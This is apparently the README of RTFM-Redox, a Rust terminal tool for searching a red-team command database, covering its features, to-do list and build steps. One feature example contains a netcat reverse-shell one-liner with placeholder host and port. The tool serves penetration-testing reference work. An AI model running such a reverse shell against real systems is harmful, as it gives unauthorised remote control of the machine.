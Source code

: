 The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or run a python script with a lot of switches you'll never remember.  

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be adding new commands and pushing the edited db file to the repository as I use this tool myself.    

## Working Features
- **note** Sometimes on Kali the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues.  
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command along with any variables that can be set and that are already set.  
- 'add -c [command]' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update [column] [content]' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  
- 'set' to set variables that will be replaced in commands that have placeholders such as [LHOST], [RHOST], etc. Example: 'set LHOST 10.200.13.3'

## To Add
- [x] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [x] Add 'env' command to display all user set variables.
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Left/right arrow keys to edit already typed command.  Only useful when adding to or updating the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [x] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.    
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare.

## Build/Install
Until I add a release build. If the linker fails during build see Issues below.
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cargo run
```

**Issues**
Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```
Arch: No issues
Mac M1: Screen flicker when using up/down arrows 
Windows: Currently not supported because Termion does not work on windows.  I'll switch to crossterm at some point.